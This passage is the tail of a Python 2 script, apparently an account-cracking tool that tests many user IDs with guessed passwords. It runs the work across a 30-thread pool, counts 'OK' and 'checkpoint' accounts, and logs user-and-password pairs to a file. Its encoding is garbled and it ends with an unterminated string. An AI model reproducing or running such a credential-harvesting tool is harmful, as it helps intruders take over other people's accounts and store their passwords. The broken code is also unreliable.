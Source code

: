#					        print '[Checkpoint] ' + k + c + user + ' -â€¢â—ˆâ€¢- ' + pass2+'\n'
#					        cps = open('save/checkpoint.txt', 'a')
#					        cps.write(k+c+user+'-â€¢â—ˆâ€¢-'+pass2+'\n')
#					        cps.close()
#	                        cpb.append(c+user+pass2)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 44*'-'
	print '[âœ“] Process Has Been Completed ....'
	print '[âœ“] Total OK/CP : '+str(len(oks))+'/'+str(len(cpb))
	print('[âœ“] CP File Has Been Saved : save/checkpoint.txt')
	print """
	
	
    raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
    login()	
          
if __name__ == '__main__':
	login()
         
          

	


